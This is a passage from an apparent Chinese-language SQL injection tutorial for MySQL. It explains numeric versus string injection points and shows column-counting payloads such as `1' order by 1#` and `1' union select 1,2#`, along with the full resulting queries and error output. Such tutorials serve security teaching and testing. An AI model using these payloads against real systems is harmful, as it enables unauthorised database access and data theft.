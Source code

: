 # 3. 常用注入手段——以MySql为例

- **判断注入类型**

  - 数字型

    指sql条件的两边没有被单引号或者双引号包裹。例如：`age = 12`

  - 字符型

    与数字型刚好相反，数据的两边会被单引号或者双引号包裹。例如：`age = "12"`

- **判断字段数量**

  方法1：`order by`

  - 关键点：`order by + 数字 +#`

  - 示例：`1' order by 1# `

  - 完整SQL：

    ```sql
    select first_name,last_name from users where user_id = '1' order by 1#;
    ```

  - 说明：查看执行结果，如果未出现错误，则可以逐渐增大`order by `后面数字值，直至报错，此时则表示查询的字段数量为你当前输入order by后面数字减一的值

  - 正常情况：

  ![](img/sql注入/字段判断-注入正常.jpg)

  - 超过字段长度情况：

    ```
    Unknown column '3' in 'order clause'
    ```

    结论：此条SQL语句查询两个字段

  方法2：`union`关键字

  - 关键点：`1' union select 1,2#`

  - 完整SQL：

    ```sql
    select first_name,last_name from users where user_id = '1' union select 1,2#;
    ```

  - 说明：

    通过不断往select后面添加数字，测试查询的字段数量
